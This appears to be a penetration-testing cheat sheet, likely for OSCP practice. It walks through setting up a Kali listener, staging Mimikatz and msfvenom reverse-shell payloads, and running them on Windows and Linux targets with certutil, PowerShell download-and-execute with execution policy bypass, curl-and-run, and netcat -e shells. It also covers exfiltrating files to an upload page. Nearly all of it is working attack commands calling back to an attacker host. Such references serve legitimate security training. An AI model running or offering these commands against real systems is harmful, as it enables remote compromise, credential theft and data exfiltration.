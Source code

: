 # 1. Setup Kali for connections

## 1.1. Setup listener

```console
nc -nlvp 4444
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## 1.2. Prepare payload transfer

Prepare files to web server root

☝️ Apache2 is already running with DocumentRoot at `/var/www/html`

If Kali isn't setup as web server, use `python3 -m http.server 80 &> /dev/null &` to run a web server endpoint, the web server root will be the `pwd` where the command was run

### Mimikatz:

```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /var/www/html
```

### MSFVenom reverse shell TCP:

☝️ omit the `x64` to generate a x86 payload

Linux:

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f py -o /var/www/html/reverse.py
```

Windows:

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
```

### PowerShell-based reverse shell script:

Download the reverse shell scription:

```console
curl -O https://raw.githubusercontent.com/joetanx/oscp/main/reverse.ps1
```

Edit the address and port:

```console
sed -i 's/<ADDRESS>/kali.vx/' reverse.ps1
sed -i 's/<PORT>/4444/' reverse.ps1
```

# 2. Execute payloads on Windows

## 2.1. Execute Windows reverse shell TCP payload

|   |   |
|---|---|
|certutil|`certutil.exe /urlcache /f /split http://kali.vx/reverse.exe %TEMP%\reverse.exe && %TEMP%\reverse.exe`|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','%TEMP%\reverse.exe'); Start-Process %TEMP%\reverse.exe`|

## 2.2. Execute PowerShell-based reverse shell script

☝️ `Invoke-Expression` is useful if you don't want the payload to touch the disk, but it works for Powershell Scripts only

(i.e. `DownloadFile` of the reverse shell executable and try to run it with `Invoke-Expression` will not work)

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/reverse.ps1')
```

# 3. Execute payloads on Linux

## 3.1. Simply nc back (if netcat is installed on target machine)

```console
nc -nv 192.168.17.10 4444 -e /bin/sh
```

## 3.2. Execute Linux reverse shell TCP payload

```console
curl -O http://kali.vx/reverse.elf && chmod +x reverse.elf && ./reverse.elf
```

# 4. Uploading files to Kali

## 4.1. Setup upload page on web server

### Prepare uploads directory

```console
mkdir /var/www/html/uploads
chown www-data:www-data /var/www/html/uploads
```

☝️ apache2 runs as `www-data` user, it needs write permission on the uploads directory for uploads to succeed

### Prepare upload page

```console
curl -o /var/www/html/upload.php https://raw.githubusercontent.com/joetanx/oscp/main/upload.php
```

☝️ The name for the upload parameter is named as default of `file` to accommodate the PowerShell `UploadFile` method of `System.Net.WebClient` which will `POST` the file to this name

## 4.2. Uploading

### Using curl

```console
curl -H 'Content-Type:multipart/form-data' -X POST -F file=@"The Little Prince.jpg" -v http://kali.vx/upload.php
```

### Using `UploadFile` method of `System.Net.WebClient`

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).UploadFile('http://kali.vx/upload.php','The Little Prince.jpg')
```
